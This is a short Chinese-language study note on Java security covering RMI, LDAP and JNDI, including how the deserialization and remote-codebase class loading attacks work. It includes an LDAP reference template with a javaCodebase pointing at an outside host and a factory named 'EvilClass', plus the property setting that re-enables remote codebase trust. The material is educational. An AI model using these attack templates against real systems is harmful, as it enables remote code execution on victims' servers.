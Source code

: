 ```java
    return null;
}
```



# Java安全

## RMI

RMI的架构是这样的：

+ RMI Registry：存储注册对象的stub。仅可对同一主机上运行的registry调用bind/rebind/unbind，而lookup/list可远程调用。虽然不能对远程registry调用bind，但远程registry实际会对任意输入反序列化，故存在被反序列化RCE的风险

+ RMI Client：从registry获取stub，从stub中获取JNDI server addr，再请求server

+ RMI Service Provider：存储对象数据。不一定和Registry在同一个JVM。方法执行的地方，仅把方法返回值返回给Client

RMI存在动态类加载行为，即会先从本地CLASSPATH加载，如无则请求codebase加载。JDK 6u132、JDK 7u122、JDK 8u113  之后，系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase` 的默认值变为false，无法再通过直接的JNDI naming reference + RMI达成攻击

需`System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");`

## LDAP

JNDI与LDAP交互需要几个特殊属性：`javaCodeBase、objectClass、javaFactory、javaSerializedData、javaRemoteLocation`，后文结合JNDI细说

```
objectClass = 'javaNamingReference'
javaCodebase = 'http://1.1.1.1:9999'
javaFactory = 'EvilClass'
javaClassName = 'EvilClass'
javaSerializedData
```

## JNDI

JNDI是Java的API，是一个上层封装（其实就是封装了多种协议而已），下层是RMI（JRMP协议传输）, CORBA和LDAP等的具体实现（还有DNS，COBRA，IIOP等等）。本质就是在实现RPC（cross JVM）

```java
// RMI
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY,
        "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,
        "rmi://localhost:9999");
Context ctx = new InitialContext(env);

ctx.bind("refObj", new RefObject());
ctx.lookup("refObj");


// LDAP
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY,
    "com.sun.jndi.ldap.LdapCtxFactory");
env.put(Context.PROVIDER_URL, "ldap://localhost:1389");

DirContext ctx = new InitialDirContext(env);
Object local_obj = ctx.lookup("cn=foo,dc=test,dc=org");
```
